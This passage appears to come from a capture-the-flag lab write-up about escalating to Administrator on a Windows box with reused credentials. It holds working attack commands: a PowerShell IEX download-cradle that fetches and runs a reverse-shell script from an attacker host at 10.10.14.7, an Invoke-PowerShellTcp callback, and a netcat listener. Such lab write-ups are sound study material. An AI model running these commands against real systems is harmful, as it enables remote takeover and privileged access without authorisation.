 To do that, first run the following command to convert the plain text string “_Welcome1!_” into a secure string and store the result in the _$password_ variable.

```text
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```

* **ConvertTo-SecureString**: Converts plain text to secure strings.
* **-AsPlainText**: Specifies a plain text string to convert to a secure string.
* **-Force**: Confirms that you understand the implications of using the _AsPlainText_ parameter and still want to use it.

Second, create a new object to store these credentials.

```text
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
```

Third, we’ll use these credentials to start PowerShell and send a \(hopefully privileged\) reverse shell back to our attack machine.

In the attack machine, copy the _shell.ps1_ script we used earlier and save it in the file _shell-admin.ps1_.

```text
cp shell.ps1 shell-admin.ps1
```

Change _shell-admin.ps1_ to send a reverse shell to our attack machine on port 6666.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

Setup a python server in the directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 6666
```

On the target machine, use the credentials to start PowerShell to download the _shell-admin.ps1_ script, run it and send a reverse shell back to our attack machine.

```text
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:5555/shell-admin.ps1')" -Credential $cred
```

We get a shell with administrator privileges!

![](https://miro.medium.com/max/767/1*FzEuxFT88c3h8BlJVEsEVg.png)

Now we can view the _root.txt_ flag without having to change the ACL permissions on it.

![](https://miro.medium.com/max/785/1*Bf2Jui2BxcVzj2W4SI-wIg.png)
